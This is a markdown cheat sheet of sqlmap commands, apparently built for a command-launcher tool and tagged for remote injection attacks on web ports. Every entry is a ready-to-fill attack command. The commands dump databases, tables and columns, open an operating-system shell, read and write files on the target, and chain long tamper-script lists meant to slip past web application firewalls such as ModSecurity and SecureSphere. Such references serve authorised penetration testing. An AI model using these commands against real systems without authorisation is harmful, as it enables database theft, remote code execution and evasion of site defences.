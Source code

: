 # SQLMAP

% sql injection
#platform/linux #target/remote #cat/ATTACK/INJECTION  #port/80 #port/443 #port/8080 #port/8443

## basic sqlmap step 1
```
sqlmap -u <url> -p <arguments> --dbs
```

## basic sqlmap step 2
```
sqlmap -u <url> -p <arguments> --dbms=<database_type>
```

## basic sqlmap step 3
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> --tables
```

## basic sqlmap step 4
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> -T <tables> --columns
```

## basic sqlmap step 5
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> -T <tables> -C <columns> --dump
```

## sqlmap - list dbs
```
sqlmap -u <url> --dbs
```

## sqlmap - list tables
```
sqlmap -u <url> -D <db> --tables
```

## sqlmap - dump a table
```
sqlmap -u <url> -D <db> -T <table> --dump
```

## sqlmap - list columns of a table
```
sqlmap -u <url> -D <db> -T <table> --columns
```

## sqlmap - dump only some tables columns
```
sqlmap -u <url> -D <db> -T <table> -C <c1>,<c2> --dump
```

## sqlmap - get shell
```
sqlmap -u <url> --os-shell
```

## sqlmap - file read
```
sqlmap -u <url> --file-read=<remote_file>
```

## sqlmap - file write
```
sqlmap -u <url> --file-write=<local_file> --file-dest=<remote_path_destination>
```

## sqlmap - classic get
```
sqlmap -u <url>
```

## sqlmap - classic post
```
sqlmap -u <url> -d "<params>"
```

## sqlmap - get with cookie
```
sqlmap -u <url> --cookie=<cookie>
```

## sqlmap - use file
```
sqlmap -r <request_file>
```

## sqlmap - classic with tamper
```
sqlmap -u '<url>' tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - hardcore
```
sqlmap -u '<url>' --level=5 --risk=3 -p '<parameter>' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

## sqlmap - mysql tamper list
```
sqlmap -u <url> --dbms=MYSQL tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - mssql tamper list
```
sqlmap -u <url> --dbms=MSSQL tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```
